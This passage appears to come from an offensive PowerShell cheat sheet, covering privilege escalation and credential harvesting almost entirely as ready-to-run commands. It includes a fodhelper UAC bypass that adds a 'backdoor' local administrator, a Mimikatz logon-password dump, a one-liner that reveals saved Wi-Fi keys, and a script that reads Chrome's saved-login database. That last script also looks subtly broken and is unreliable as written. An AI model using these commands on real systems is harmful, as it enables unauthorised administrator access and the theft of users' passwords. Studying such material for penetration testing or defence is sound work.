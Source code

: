 
### **7. Privilege Escalation**

#### **Check Privileges**
```powershell
whoami /priv
```

#### **Check UAC Settings**
```powershell
reg query HKLM\Software\Microsoft\Windows\CurrentVersion\Policies\System
```

#### **Enable Execution of Unsigned Scripts**
```powershell
Set-ExecutionPolicy Unrestricted
```

#### **Bypass PowerShell Execution Policy**
```powershell
powershell -ExecutionPolicy Bypass -File script.ps1
```

#### **UAC Bypass via Fodhelper**
```powershell
$command = 'C:\windows\system32\cmd.exe /c net localgroup administrators backdoor /add'
$regPath = 'HKCU:\Software\Classes\ms-settings\shell\open\command'
New-Item -Path $regPath -Force
Set-ItemProperty -Path $regPath -Name '(default)' -Value $command
Set-ItemProperty -Path $regPath -Name 'DelegateExecute' -Value ''
Start-Process fodhelper.exe
```

---

### **8. Credential Harvesting**

#### **Dump Cached Credentials**
```powershell
Invoke-Mimikatz -Command '"sekurlsa::logonpasswords"'
```

#### **Retrieve Saved Wi-Fi Passwords**
```powershell
(netsh wlan show profiles) | Select-String "\:(.+)$" | ForEach-Object { $_.Matches[0].Groups[1].Value.Trim() } | ForEach-Object { netsh wlan show profile name="$_" key=clear }
```

#### **Extract Chrome Saved Passwords**
```powershell
$creds = @()
$DataPath = "$env:localappdata\Google\Chrome\User Data\Default\Login Data"
$Query = "SELECT action_url, username_value, password_value FROM logins"
$Connection = New-Object -ComObject ADODB.Connection
$Connection.Open("Data Source=$DataPath;Version=3;")
$RecordSet = New-Object -ComObject ADODB.Recordset
$RecordSet.Open($Query, $Connection)
while (!$RecordSet.EOF) {
    $creds += [PSCustomObject]@{
        URL = $RecordSet.Fields.Item("action_url").Value
        Username = $RecordSet.Fields.Item("username_value").Value
        Password = $RecordSet.Fields.Item("password_value").Value
    }
    $RecordSet.MoveNext()
}
$RecordSet.Close()
$Connection.Close()
```